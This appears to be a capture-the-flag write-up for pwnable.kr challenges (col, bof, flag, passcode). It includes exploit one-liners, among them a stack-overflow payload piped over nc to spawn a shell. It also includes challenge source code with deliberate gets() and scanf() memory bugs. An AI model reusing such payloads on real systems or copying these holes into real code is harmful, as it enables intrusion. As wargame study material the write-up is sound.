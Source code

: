 ```bash
./col `python -c "import sys;sys.stdout.write('\x01'*16+'\xe8\x05\xd9\x1d')"`
```

### bof

```c
void func(int key){
  char overflowme[32];
  printf("overflow me : ");
  gets(overflowme);
  if(key == 0xcafebabe){
    system("/bin/sh");
  }
}
int main(int argc, char* argv[]){
  func(0xdeabdeef);
}
```

This is a simple buffer overflow to change a variable. All that is required is to input 32 characters followed by 0xcafebabe. We just open gdb, set a breakpoint after the gets, then run with a long string that has recognizable segments such as 'AAAABBBB....YYYYZZZZ'. Once we get to the break point we check what value was being checked in the if statement. It turns out to be 'NNNN' so we need an offset of 52 to get to the variable we want to overwrite and then 0xcafebabe. The if statement just spawns /bin/sh so we need to do a trick with our input so we can type our commands. 

```bash
(python -c "import sys;sys.stdout.write('A'*52+'\xbe\xba\xfe\xca')";cat) | nc pwnable.kr 9000
```

### flag

This is the first binary problem so we download it and we can run strings on it to see if anything pops out as the flag. There are a lot of random strings so it looks like it is obfuscated some but part of the way up we see the string:

```
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
```

After we run 'upx -d flag' we get the unpacked file. Running strings on that we find it is readable so we just search through the list to find our flag.

### passcode

```c
int login(){
  int passcode1;
  int passcode2;
  scanf("%d", passcode1);
  fflush(stdin);
  scanf("%d", passcode2);
  if(passcode1==338150 && passcode2==13371337){
    system("/bin/cat flag");
  }
}
void welcome(){
  char name[100];
  scanf("%100s", name);
  printf("Welcome Is!\n", name);
}
int main(){
  welcome();
  login();
}
```
